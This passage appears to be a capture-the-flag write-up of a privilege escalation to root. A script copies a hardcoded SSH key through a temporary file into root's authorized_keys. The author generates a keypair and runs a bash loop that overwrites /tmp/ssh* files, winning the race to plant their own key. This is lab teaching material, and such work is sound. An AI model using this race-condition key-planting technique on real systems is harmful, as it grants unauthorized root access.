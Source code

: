 ```bash
checkAdded
```

addkey function looks interesting
1. It's making a tmp name like `/tmp/ssh-XXXXXXXX` and echo the hardcoded ssh public key to that tmp file
2. cat the tmp file which contains ssh public key and write it to root's `authorized_keys`

We don't have that private key so we can't login to the box as root.
But we can also change the content of that tmp file with race condition before reading and writing to root `authorized_keys`(we should check if that tmp file exists or not before overwriting it)\
Let's create our SSH Key to replace below
```bash
ssh-keygen                                                                                                                 1 ✘  2.7.2  
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kourosh/.ssh/id_rsa): ./root
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./root
Your public key has been saved in ./root.pub
```

I wrote the following bash script to automatically check for tmp files so if they exist it will overwrite them with our ssh public key

```bash
rm -rf /tmp/ssh*
while true
do 
    if test -f /tmp/ssh*; then 
        echo SSH-PUBLIC-KEY > /tmp/ssh*
    fi
done
```

After running the code we used a race condition bug and wrote our ssh public key to the root `authorized_keys` so we could login to the box with the `root` user

![root-shell](./images/root-shell.png)
